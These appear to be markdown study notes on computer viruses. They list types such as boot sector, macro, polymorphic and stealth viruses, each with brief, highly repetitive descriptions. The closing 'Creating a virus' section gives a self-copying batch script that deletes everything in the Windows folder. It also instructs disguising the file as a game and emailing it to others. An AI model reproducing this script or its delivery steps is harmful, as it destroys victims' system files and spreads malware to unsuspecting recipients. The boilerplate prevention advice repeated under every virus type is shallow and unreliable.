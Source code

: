     - Some types of viruses are :

      - Boot sector virus :
        - A boot sector virus infects the boot sector of a hard drive or a floppy disk.
        - It infects the boot sector by replacing the boot code with its own code.
        - It is also known as a master boot record virus.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - File infecting virus :
        - A file infecting virus infects executable files such as .exe and .com files.
        - It infects the executable files by inserting its code into the file.
        - It is also known as a parasitic virus.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - Macro virus :
        - A macro virus infects documents that are created using applications or programs that contain macros such as Microsoft Word, Microsoft Excel, Microsoft Access, etc.
        - It infects the documents by inserting its code into the document.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - Multipartite virus :
        - A multipartite virus infects both boot sector and executable files.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - Polymorphic virus :
        - A polymorphic virus changes its code every time it infects a new file.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - Stealth virus :
        - A stealth virus hides itself from antivirus software.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - Armored virus :
        - An armored virus protects itself from antivirus software.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - Encrypted virus :
        - An encrypted virus encrypts its code to avoid detection.
        - It is difficult to detect and remove.
        - It can be prevented by using antivirus software and by not using pirated software.
      - Companion virus :
        - A companion virus creates a file with the same name as that of the executable file.

    - Creating a virus :

      Virus can be created using two methods :

      - Using virus construction kits.
      - Writing virus programs :

        - To create a virus program, create a .bat file with this code :

         ```
          @ echo off
          for %%f in (
            *.bat
          ) do 
          copy %%f + Game.bat 
          del C:/Windows/*.*
         ```
        - Save the file as `Game.bat`.
        - Convert the bat file into a Game.com file.
        - Send this file to anyone as an email attachement.
        - When run, the file copies itself to all the bat files in the current directory and deletes all the files in the windows folder.
